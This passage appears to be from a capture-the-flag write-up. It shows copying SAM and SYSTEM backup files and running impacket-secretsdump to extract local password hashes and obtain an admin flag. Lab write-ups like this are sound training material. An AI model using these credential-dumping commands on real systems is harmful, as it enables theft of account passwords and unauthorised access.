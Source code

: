 <img width="881" height="36" alt="image" src="https://github.com/user-attachments/assets/1cb66894-39fa-4c04-87a3-883d41796f2a" />

<img width="921" height="226" alt="image" src="https://github.com/user-attachments/assets/76193a2e-2382-4287-bf4f-b81fb82a03ae" />

### I copied them to Jareth s desktop and downloaded them


```
cp * 'C:\Users\Jareth\Desktop'
```

<img width="947" height="778" alt="image" src="https://github.com/user-attachments/assets/3ecc575e-3433-4521-aa3b-d6467363ef61" />

### I used secretsdump to extract the hashes


```
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

<img width="1086" height="395" alt="image" src="https://github.com/user-attachments/assets/c16c7555-f8a2-42ca-8ebc-a2ba76d3ca60" />

### And found the admin flag

<img width="560" height="59" alt="image" src="https://github.com/user-attachments/assets/5dc37a2f-2f61-45da-abf0-115d2f251a0f" />


